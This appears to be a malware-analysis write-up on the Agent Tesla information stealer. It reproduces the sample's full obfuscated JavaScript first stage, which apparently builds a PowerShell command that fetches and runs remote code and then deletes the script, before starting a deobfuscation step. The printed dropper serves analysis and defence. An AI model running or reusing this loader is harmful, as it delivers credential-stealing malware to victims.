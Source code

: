 ## Agent Tesla Analysis

A .NET based information stealer readily available to actors due to leaked builders. The malware is able to log keystrokes, can access the host's clipboard and crawls the disk for credentials or other valuable information. It has the capability to send information back to its C&C via HTTP(S), SMTP, FTP, or towards a Telegram channel.

## Initial JavaScript

The initial stage is a JS script, this sample was downloaded from here - https://bazaar.abuse.ch/sample/3ea81c292f36f2583d2291e8a393014da62767447dba7b139a6c45574647aa2b/

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b592b43e-f126-45d9-933e-004809be6ca6)

The script is obfuscated with Char codes and junk characters, we'll start by removing the ° characters and adding new lines after each semi colon to clean it up a bit.

``` javascript
_cs=["ste","//a","while","ep","bl","ell","ame","pt.","it","nt","Del","Id","Ele","il"," -e","zone","we",'&'," [","ls1","yP","po",".F","Se","ete","ce","She","Fi","By","(i","pa","]:","tar","cri","erv",",'","+","t.","ml)","RUN","e'","ur","5.",".r",'tion',"for"," |","je","*x","//","geo","ing","Sle"," . ","c ","eP","-","oi","eSy","dow","ul","get","in2",".S","yPr","na",'1024',"lTy","Sec","Ma","*'","ll","%","p ","ss","mOb","oct",");S","2;$","m/","col","Scr","et","('","nav","Sc","ot","rm ","ipt",'win',"WS","m.x","nd","///","[N","ge","ct","ma","ic","le","ri","ro","ptF","oco","rsh","la","')","('i","cur","::","lN",":T"," =","to","htl",'abs',"t-S","Ne","co","r]","ogs","pe"," -","s 5"];

 _g0g0g0g0=[_cs[90],_cs[39],_cs[21]+_cs[16]+_cs[104]+_cs[5]+_cs[14]+_cs[73]+_cs[28]+_cs[30]+_cs[74]+_cs[122]+_cs[54]+_cs[94]+_cs[82]+_cs[63]+_cs[34]+_cs[98]+_cs[55]+_cs[57]+_cs[9]+_cs[69]+_cs[65]+_cs[95]+_cs[119]+_cs[109]+_cs[68]+_cs[41]+_cs[8]+_cs[20]+_cs[101]+_cs[113]+_cs[80]+_cs[112]+_cs[18]+_cs[117]+_cs[37]+_cs[23]+_cs[108]+_cs[8]+_cs[64]+_cs[86]+_cs[103]+_cs[67]+_cs[121]+_cs[31]+_cs[111]+_cs[19]+_cs[78]+_cs[29]+_cs[87]+_cs[114]+_cs[76]+_cs[97]+_cs[62]+_cs[42]+_cs[4]+_cs[120]+_cs[21]+_cs[37]+_cs[118]+_cs[79]+_cs[93]+_cs[49]+_cs[93]+_cs[93]+_cs[49]+_cs[93]+_cs[49]+_cs[49]+_cs[49]+_cs[1]+_cs[113]+_cs[91]+_cs[38]+_cs[46]+_cs[53]+_cs[107]+_cs[48]+_cs[106]+_cs[43]+_cs[3]+_cs[105]+_cs[25]+_cs[83]+_cs[70]+_cs[35]+_cs[40]+_cs[77]+_cs[32]+_cs[116]+_cs[99]+_cs[3]+_cs[122]+_cs[23]+_cs[118]+_cs[92]+_cs[123],_cs[7],_cs[71],_cs[81]+_cs[88]+_cs[51]+_cs[22]+_cs[13]+_cs[58]+_cs[0]+_cs[75]+_cs[47]+_cs[96],_cs[33],_cs[26],_cs[85]+_cs[100]+_cs[102]+_cs[60]+_cs[110]+_cs[6],_cs[10]+_cs[24]+_cs[27]+_cs[99],_cs[52]+_cs[3]];

 _g1=[_g0g0g0g0[4],_g0g0g0g0[6],_g0g0g0g0[1],_g0g0g0g0[0],_g0g0g0g0[3],_g0g0g0g0[7]];

 new ActiveXObject(_g1[3]+_g1[1]+_g1[4]+_g1[5]+_g1[0])[_g1[2]](_g0g0g0g0[2],0,true);
 
 WScript[_g0g0g0g0[10]](10000);
 
 new ActiveXObject(_g0g0g0g0[5])[_g0g0g0g0[9]](WScript[_g0g0g0g0[8]]);
```

We're going to echo the interesting "_g0g0g0g0" variable and avoid execution by commenting out the ActiveXObject and WScript lines:

``` javascript
_cs=["ste","//a","while","ep","bl","ell","ame","pt.","it","nt","Del","Id","Ele","il"," -e","zone","we",'&'," [","ls1","yP","po",".F","Se","ete","ce","She","Fi","By","(i","pa","]:","tar","cri","erv",",'","+","t.","ml)","RUN","e'","ur","5.",".r",'tion',"for"," |","je","*x","//","geo","ing","Sle"," . ","c ","eP","-","oi","eSy","dow","ul","get","in2",".S","yPr","na",'1024',"lTy","Sec","Ma","*'","ll","%","p ","ss","mOb","oct",");S","2;$","m/","col","Scr","et","('","nav","Sc","ot","rm ","ipt",'win',"WS","m.x","nd","///","[N","ge","ct","ma","ic","le","ri","ro","ptF","oco","rsh","la","')","('i","cur","::","lN",":T"," =","to","htl",'abs',"t-S","Ne","co","r]","ogs","pe"," -","s 5"];

```
